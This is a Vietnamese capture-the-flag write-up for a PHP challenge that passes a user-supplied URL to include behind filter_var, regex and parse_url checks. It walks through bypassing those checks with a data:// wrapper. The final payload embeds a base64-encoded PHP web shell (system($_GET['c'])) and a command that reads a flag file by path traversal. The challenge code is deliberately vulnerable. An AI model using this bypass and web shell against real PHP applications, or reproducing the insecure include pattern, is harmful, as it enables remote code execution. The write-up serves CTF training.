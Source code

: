 Đầu tiên vào trang web sẽ cho source như sau:

```php
 <?php
  ini_set('open_basedir', '.');
  if(isset($_GET['url'])){
    $url = $_GET['url']; //.".txt";       I think i should make this challenge eaiser :)))
    if(!filter_var($url, FILTER_VALIDATE_URL)) exit("invalid url");
    if(!preg_match("/http:\/\/nhienit.kma:2010\//",$url)) exit("invalid server");
    if(preg_match("/@|#|\(|\)|\\$|`|'|\"|_|{|}|\?/",$url)) exit("you are not orange");
    if((parse_url($url)['host'] !== "nhienit.kma") || (parse_url($url)['port'] !== 2010)) exit("invalid host or port");
    if(parse_url($url)['user'] || parse_url($url)['pass']) exit("you are not orange");
    include $url;
  }
  else {
    highlight_file(__FILE__); 
    exit();
  }
  // Hint: Google is your friend!!!! XD
?> 
```

Rồi phân tích `source`, thì trông source có vẻ filter khá là nhiều. Tìm cách để có thể lấy được flag nào. Nhìn thấy dòng include $url có vẻ là chúng ta cần đọc file qua include -> Có thể là LFI hoặc RCE.

Vậy làm cách nào để có thể qua được cả đống filter thế kia. Đầu tiên mình nghĩ đến việc bypass `parse_url` vì hôm trước có làm một bài như vậy. Tìm trên mạng, tìm thấy các cách như dử dụng `//` hay là `@`, `#` các thứ nhưng chốt lại là chả cái nào qua được cái ```if(preg_match("/@|#|\(|\)|\\$|`|'|\"|_|{|}|\?/",$url)) exit("you are not orange");```.

Đến đây mình khá là bế tắc. Rồi suy nghĩ là tại sao mình không dùng `wraper php` nhỉ. Và rồi mình test thử một payload đơn giản là: `?url=data://text/plain;base64` và nó qua được filter_var thật.

![image](https://user-images.githubusercontent.com/96786536/157479071-01934455-36be-4143-86b9-0ac81d5ffbac.png)

Ok bypass tiếp cái thứ hai thôi. Để bypass qua cái thứ hai mình đã sử dụng payload: ```?url=data://http://nhienit.kma:2010/plain;base64```

![image](https://user-images.githubusercontent.com/96786536/157479904-1ee50f23-09d6-400f-b3c4-bb7b1afb6d7c.png)

Ok nhưng nó vẫn báo là `invalid host or port`. Rồi để xem nó `parse_url` trả về cái gì sau khi mình up payload lên, thì mình đã chạy trên local và được:

![image](https://user-images.githubusercontent.com/96786536/157480691-555e1e20-706b-4c72-9917-3176f2db87f0.png)

Có vẻ là hàm parse_url trả về schema là `data` và host lại là `http`. Vậy là ta chỉ cần thay chỗ http thành `nhienit.kma:2010` là được.

![image](https://user-images.githubusercontent.com/96786536/157481397-0925cb91-a85e-4462-bfd4-02ed1e3c8919.png)

Thêm `http://nhienit.kma:2010` vào phần path là đã thành công bypass qua tất cả rồi.

Đây là payload cuối cùng để có thể `RCE`:

Payload: `?url=data://nhienit.kma:2010/http://nhienit.kma:2010/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjJ10pOyA/Pg==`.

`PD9waHAgc3lzdGVtKCRfR0VUWydjJ10pOyA/Pg==` là base64 encode của `<?php system($_GET['c']); ?>`.

Ok thành công up shell. Lục lọi tìm flag thôi(vì flag nằm linh tinh ở đâu đó).

Cuối cùng cũng thấy:

![image](https://user-images.githubusercontent.com/96786536/157483670-cdcd3173-57f4-4c01-8ea8-356e9f4b272a.png)

Payload:
```?url=data://nhienit.kma:2010/http://nhienit.kma:2010/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjJ10pOyA/Pg==&c=cat ../../../flag```

Cảm ơn mọi người đã đọc. Bye!!!
